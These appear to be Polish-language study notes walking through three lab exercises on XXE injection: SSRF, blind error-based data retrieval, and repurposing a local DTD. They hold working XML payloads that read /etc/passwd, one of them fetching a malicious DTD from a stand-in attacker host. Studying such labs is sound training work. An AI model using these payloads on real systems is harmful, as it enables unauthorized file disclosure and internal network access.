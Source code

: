 # XXE

## Lab: Exploiting XXE to perform SSRF attacks
1. mamy endpoint, który używa XML
2. wpisujemy `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`
3. znajdujemy miejsce, w którym jest sprawdzana wartość i mamy zwracane [Invalid argument: nazwa folderu] 
4. po kolei dopisujemy kolejne foldery ze ścieżki, aż dochodzimy do rozwiązania

## Lab: Exploiting blind XXE to retrieve data via error messages
1. na naszym serwerze tworzymyh payload:
``` 
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
- tworzy on referencję do zmiennej (% file), do której załadowujemy zawartość /etc/passwd
- tworzy referencję do zmiennej (% eval), która dynamicznie tworzy zapytanie do nieistniejącego pliku (którego nazwą jest zawartość pliku /etc/passwd)
- w "podmiocie" (entity) stworzonym przez wywołanie %eval; tworzymy referencję do zmiennej (%error), która zwróci błąd ponieważ ścieżka nie istnieje
2. na serwerze dodajemy część kodu z zapytaniem:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```
3. serwer wysyła zapytanie i zwracany jest błąd z nazwą ścieżki, która nie istnieje (bo jest to zawartość pliku /etc/passwd)
notatka: nie możemy ostatecznego payloadu wpisać od razu, bo blokowane są entity, a w tym payloadzie, który wysyłamy entity tworzy się dopiero na serwerze


## Lab: Exploiting XXE to retrieve data by repurposing a local DTD
1. poprzez zapytania w typowe miejsca z pikami dtd (Document Type Definition) tj.:
``` 
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```
2. jeśli plik nie istnieje zwracany jest błąd
3. dowiadujemy się, że w pliku zdefiniowana jest zmienna ISOamso, bo pliki dtd zazwyczaj są opensource
4. widząc to robimy payload:
```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
- tworzy się entity do którego wpisujemy zawartość pliku docbookx.dtd
- nadpisujemy entity o nazwie ISOamso, dzięki czemu nie zostanie ono zablokowane